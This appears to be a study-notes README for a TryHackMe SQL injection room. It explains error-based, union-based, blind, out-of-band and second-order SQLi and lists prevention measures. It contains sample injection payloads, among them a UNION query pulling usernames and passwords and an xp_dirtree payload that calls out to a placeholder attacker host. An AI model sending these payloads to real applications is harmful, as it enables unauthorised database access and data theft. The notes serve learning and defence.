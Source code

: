 # TryHackMe: SQL Injection 

Room URL: https://tryhackme.com/room/sqlinjectionlm


# SQL Injection (SQLi) Summary

SQL Injection (SQLi) is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It is one of the most common and dangerous web vulnerabilities.

---

## Common SQLi Types

### 1. Classic (In-Band) SQL Injection

#### ➤ Explanation:
The attacker uses the same communication channel to both launch the attack and retrieve results.

#### ➤ Subtypes:
- **Error-Based SQLi**: Forces the database to generate error messages which reveal information.
- **Union-Based SQLi**: Uses the `UNION` SQL operator to combine results of two or more `SELECT` queries.

#### ➤ Example (Error-Based):
```sql
http://example.com/product?id=1' -- 
```
If vulnerable, it could generate an error like:
```
You have an error in your SQL syntax; check the manual...
```

#### ➤ Example (Union-Based):
```sql
http://example.com/product?id=1 UNION SELECT username, password FROM users --
```

---

### 2. Blind SQL Injection

#### ➤ Explanation:
The application does not show error messages. Instead, the attacker infers information based on application behavior.

#### ➤ Subtypes:
- **Boolean-Based (Content-Based)**: Sends a query that returns different results depending on whether the condition is true or false.
- **Time-Based**: Uses database time delay functions to infer information.

#### ➤ Example (Boolean-Based):
```sql
http://example.com/item?id=1' AND 1=1 -- (page loads normally)
http://example.com/item?id=1' AND 1=2 -- (different behavior or blank page)
```

#### ➤ Example (Time-Based):
```sql
http://example.com/item?id=1' AND IF(1=1, SLEEP(5), 0) -- 
```
Response is delayed = true condition confirmed.

---

### 3. Out-of-Band SQL Injection

#### ➤ Explanation:
Data is retrieved using a different channel (e.g., DNS or HTTP), often used when in-band is not possible.

#### ➤ Example:
```sql
'; EXEC xp_dirtree '\attacker.com\share' -- 
```
This may cause the database server to make an outbound connection to the attacker.

---

### 4. Second-Order SQL Injection

#### ➤ Explanation:
Malicious SQL code is stored in the database and later executed in a different context when retrieved.

#### ➤ Example:
```sql
-- User input in a form field:
username = "admin'--"

-- Later, when admin logs in, a query like:
SELECT * FROM users WHERE username = '$username'
-- becomes:
SELECT * FROM users WHERE username = 'admin'--'
```

---

## Prevention Tips

- Use **parameterized queries** (prepared statements).
- Employ **ORMs** (Object-Relational Mapping tools).
- Validate and sanitize all inputs.
- Implement **least privilege** database accounts.
- Use **Web Application Firewalls (WAFs)**.
- Monitor and log suspicious activity.

---

## References

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy - SQLi](https://portswigger.net/web-security/sql-injection)
- [Acunetix - Types of SQL Injection](https://www.acunetix.com/blog/articles/sql-injection-types/)
- [Cheat Sheet Series: SQL Injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQL_Injection_Bypassing_WAF](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

---

